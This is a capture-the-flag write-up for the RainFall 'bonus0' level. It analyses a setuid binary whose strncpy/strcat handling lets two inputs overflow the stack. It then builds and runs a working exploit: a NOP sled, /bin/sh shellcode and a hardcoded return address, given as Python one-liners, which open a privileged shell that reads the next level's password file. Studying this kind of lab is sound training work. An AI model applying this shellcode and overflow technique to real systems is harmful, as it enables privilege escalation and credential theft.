

# BONUS0

## 1. Inspect The Executable

```bash
bonus0@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus1 users 5566 Mar  6  2016 bonus0
```

We can see that the binary has the `s` bit set on the **execution permission**, which means the program will run with bonus1 privileges.

```bash
bonus0@RainFall:~$ ./bonus0 
 - 

 - 

 
bonus0@RainFall:~$ ./bonus0 
 - 
a
 - 
b
a b
bonus0@RainFall:~$ ./bonus0 
 - 
abc
 - 
def
abc def
bonus0@RainFall:~$ ./bonus0 
 - 
abcdefghij
 - 
klmnopqrst
abcdefghij klmnopqrst
```
The program reads from `stdin` twice (separated by a `-`) and prints the result separated by a space.

```bash
bonus0@RainFall:~$ ./bonus0 
 - 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 - 
bcd
aaaaaaaaaaaaaaaaaaaabcd bcd
bonus0@RainFall:~$ ./bonus0 
 - 
a
 - 
bbbbbbbbbbbbbbbbbbb  
a bbbbbbbbbbbbbbbbbbb
bonus0@RainFall:~$ ./bonus0 
 - 
a
 - 
bbbbbbbbbbbbbbbbbbbb
a bbbbbbbbbbbbbbbbbbbb���
bonus0@RainFall:~$ ./bonus0 
 - 
a
 - 
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
a bbbbbbbbbbbbbbbbbbbb���
bonus0@RainFall:~$ ./bonus0 
 - 
aaaaaaaaaaaaaaaaaaa 
 - 
bbbbbbbbbbbbbbbbbbbb
aaaaaaaaaaaaaaaaaaa bbbbbbbbbbbbbbbbbbbb���
bonus0@RainFall:~$ ./bonus0 
 - 
aaaaaaaaaaaaaaaaaaaa
 - 
bbbbbbbbbbbbbbbbbbbb
aaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbb��� bbbbbbbbbbbbbbbbbbbb���
Segmentation fault (core dumped)
```

These tests indicate a **buffer overflow vulnerability** (here triggered with 20 `a` and 20 `b`). We can observe that if one entry is **longer than 20 bytes** but the other is not, some **corrupted characters** `�` are printed but no segfault occurs. This means there is protection on each individual entry, but not on their concatenation.

## 2. Analyze The Executable

```bash
(gdb) info functions 
All defined functions:

Non-debugging symbols:
[...]
0x080484b4  p
0x0804851e  pp
0x080485a4  main
[...]
```

Using the gdb command `info functions`, we can list all functions present in the binary.
Here, we find 3 interesting functions: `main`, `pp`, `p`.

### Program Behavior

#### main function

The `main` function **allocates** a **local buffer `local_3a`** (54 bytes) and passes it to **`pp()`**. After `pp()` returns, it **prints the content** of `local_3a` using `puts()`, then returns `0`.

#### pp function

The `pp` function calls **`p()`** with **`local_34`** to read the first input. Then it calls **`p()`** with **`local_20`** to read second input.

Then it **copies `local_34`** into **`param_1`** using `strcpy()`. **Concatenates** a **space** to **`param_1`** then **`local_20`** to **`param_1`**, both using `strcat()`.

The result is **stored** in **`param_1`**, which is passed from `main()`.


#### p function

The `p` function first **prints `param_2`** using `puts()`. Then its **reads `stdin`** and **stores** the result into a local variable **`local_100c`** (of size of **`4104 bytes`**) (with a limited size of `0x1000`, 4096 in decimal).

Then **search the first newline** (`\n`) in `local_100c` using `strchr()`, **replaces** the **newline** with a **null terminator** (`\0`). Then **copies `local_100c`** into **`param_1`** using `strncpy()` (with a limit of **`0x14` bytes**, 20 in decimal).

## 3. Exploit Development

In this level again, there is **no `system` call**, so we need to **execute our own code** by **injecting a shellcode**.

We will use the following x86 Linux `/bin/sh` shellcode:

```
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```

A **shellcode** is a **sequence of machine instructions** encoded in hexadecimal. It is not human-readable, and it is **executable by the CPU**.

(This one was taken from [shell-storm](https://shell-storm.org/shellcode/files/shellcode-841.html).)

And we will overflow the local variable to overwrite the saved EIP and redirects execution on the shellcode. 

---

### Understand the Overflow

In this level **we cannot** simply **puts the shellcode address** at the **end of the payload**, we need to fully understand what is happenning during the overflow:

```bash
bonus0@RainFall:~$ gdb ./bonus0
[...]
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
aaaabbbbccccddddeeee
 - 
ffffgggghhhhiiiijjjj            
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjj��� ffffgggghhhhiiiijjjj���

Program received signal SIGSEGV, Segmentation fault.
0x69686868 in ?? ()
```
We can see with gdb that the **segfault** is made on the address **`0x69686868`**, that represent **`ihhh`** or in big-endian : **`hhhi`**.

So the address must be at the place of **`hhhi`**.

And this is because the **2nd entry appear twice**.

This is because in **`p(local_34)`**, `strncpy()` copies **exactly 20 bytes** into `local_34`, and if the input is greater than 20 bytes, **no null terminator** is added. So `local_34` and `local_20` are **adjacent** in memory.

When **`strcat()`** is called, it searches for the null terminator in `param_1`. Since `local_34` has **no null terminator**, `strcat()` **continues reading** into `local_20`'s memory space, treating **both buffers** as **one continuous string**.

This lead to:
```
[local_34][local_20]\0 + ' ' + [local_20]\0
```

Instead of:
```
[local_34]\0 + ' ' + [local_20]\0
```
 
Here is why the **address** would be in the **middle of the payload** (and actually would be printed twice).

With this observation, we got:
```
ffffgggghhhhiiiijjjj
		 hhhi
└───┬───┘└┬─┘└──┬──┘
	9	  4		7
```


So this lead to this payload structure:
```
			<shellcode> + <padding>	  			  + 	<padding> + <address> + <padding>
				21		+	  ?								9	  +	 	4	  +    7
└───────────────────────┬────────────────────────┘└───────────────────────┬────────────────────────┘
					first entry										second entry
```


---

### NOP Instruction

We will also need to use `NOP` instruction.

`NOP` stands for **No Operation**. It's an **assembly instruction** (`\x90` in x86) that **does nothing** except **advance to the next instruction**.

By placing **many `NOP` instructions** before the shellcode, if our return address points **anywhere** in the **`NOP` sled**, execution will **"slide"** through the `NOP`s **until it reaches** the **shellcode**.

This gives us a **much larger target** to hit, **increasing** the **exploit's reliability**.

So we can update the payload structure:
```
			<NOP padding> + <shellcode>  		  + 	<padding> + <address> + <padding>
				1000	  +		21							9	  +	 	4	  +    7
└───────────────────────┬────────────────────────┘└───────────────────────┬────────────────────────┘
					first entry										second entry
```

---

### Get Exploit Values

We need to find an address that points **somewhere in the NOP sled**. We don't need the exact shellcode address—any address within the **`NOP` region** will work.

We need the **address of `local_100c`** in the `p()` function, where our **payload is stored**.

```s
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)
   0x080484da <+38>:	movl   $0x0,(%esp)
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
```

From this asm dump, we can see that **`%eax`** contain the **2nd arguments of read**.

```c
  read(0,local_100c,0x1000);
```

And it's **`local_100c`**.

```bash
bonus0@RainFall:~$ gdb ./bonus0 
[...]
(gdb) b read
Breakpoint 1 at 0x8048380
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 

Breakpoint 1, 0xb7f0a1f0 in read () from /lib/i386-linux-gnu/libc.so.6
(gdb) x $eax
0xbfffe680:	0x00000000
```

So it is : `0xbfffe680`.

Now we have to **move forward** in it to **get in the middle** of the **`NOP` instruction**, for example : `0xbfffe6c5`. In little endian:
```
\xc5\xe6\xff\xbf
```

---

### Overflow Visualization



### Create the Payload


```bash
python -c "print '\x90' * 1000 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; sleep 1; python -c "print 'a' * 9 + '\xc5\xe6\xff\xbf' + 'a' * 7"
```

**Note:**
The `sleep 1` permit to wait 1 second before the write the 2nd entry, to let the first read finish and wait the 2nd.

**Explanation:**
- `python`			: launches the Python interpreter.
- `-c` 				: executes the command passed as a string.
- `print` 			: outputs data to standard output.


## 4. Capture The Flag

```bash
bonus0@RainFall:~$ (python -c "print '\x90' * 1000 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; sleep 1; python -c "print 'a' * 9 + '\xc5\xe6\xff\xbf' + 'a' * 7"; cat)  | ./bonus0
 - 
 - 
��������������������aaaaaaaaa����aaaaaaa��� aaaaaaaaa����aaaaaaa���
id
uid=2010(bonus0) gid=2010(bonus0) euid=2011(bonus1) egid=100(users) groups=2011(bonus1),100(users),2010(bonus0)
cat /home/user/bonus1/.pass
XXX
exit
```
